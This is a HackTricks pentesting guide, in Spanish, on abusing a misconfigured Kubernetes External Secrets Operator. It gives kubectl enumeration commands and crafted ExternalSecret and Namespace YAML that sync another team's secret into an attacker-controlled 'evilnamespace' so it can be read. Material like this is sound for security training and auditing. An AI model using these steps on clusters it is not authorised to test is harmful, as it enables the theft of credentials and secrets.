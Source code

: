 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**El autor original de esta página es** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Esta página ofrece algunas indicaciones sobre cómo puedes robar secretos de un ESO mal configurado o de una aplicación que utiliza ESO para sincronizar sus secretos.

## Aviso

La técnica mostrada a continuación solo puede funcionar cuando se cumplen ciertas circunstancias. Por ejemplo, depende de los requisitos necesarios para permitir que un secreto se sincronice en un espacio de nombres que posees / has comprometido. Necesitas averiguarlo por ti mismo.

## Requisitos previos

1. Un acceso en un clúster de kubernetes / openshift con privilegios de administrador en un espacio de nombres
2. Acceso de lectura a al menos ExternalSecret a nivel de clúster
3. Averiguar si hay etiquetas / anotaciones o membresía de grupo requeridas que permitan a ESO sincronizar tu secreto. Si tienes suerte, puedes robar libremente cualquier secreto definido.

### Reuniendo información sobre el ClusterSecretStore existente

Suponiendo que tienes un usuario que tiene suficientes derechos para leer este recurso; comienza por listar primero los _**ClusterSecretStores**_ existentes.
```sh
kubectl get ClusterSecretStore
```
### Enumeración de ExternalSecret

Supongamos que encontraste un ClusterSecretStore llamado _**mystore**_. Continúa enumerando su externalsecret asociado.
```sh
kubectl get externalsecret -A | grep mystore
```
_Este recurso está limitado al espacio de nombres, así que a menos que ya sepas en qué espacio de nombres buscar, agrega la opción -A para buscar en todos los espacios de nombres._

Deberías obtener una lista de externalsecret definidos. Supongamos que encontraste un objeto externalsecret llamado _**mysecret**_ definido y utilizado por el espacio de nombres _**mynamespace**_. Reúne un poco más de información sobre qué tipo de secreto contiene.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Desde aquí puedes obtener el nombre de uno o varios nombres de secretos (como se define en el recurso Secret). Obtendrás una salida similar a:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hasta ahora tenemos:

- Nombre de un ClusterSecretStore
- Nombre de un ExternalSecret
- Nombre del secreto

Ahora que tenemos todo lo que necesitamos, puedes crear un ExternalSecret (y eventualmente parchear/crear un nuevo Namespace para cumplir con los requisitos necesarios para sincronizar tu nuevo secreto):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Después de unos minutos, si se cumplieron las condiciones de sincronización, deberías poder ver el secreto filtrado dentro de tu espacio de nombres.
```sh
kubectl get secret leaked_secret -o yaml
```
## Referencias

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
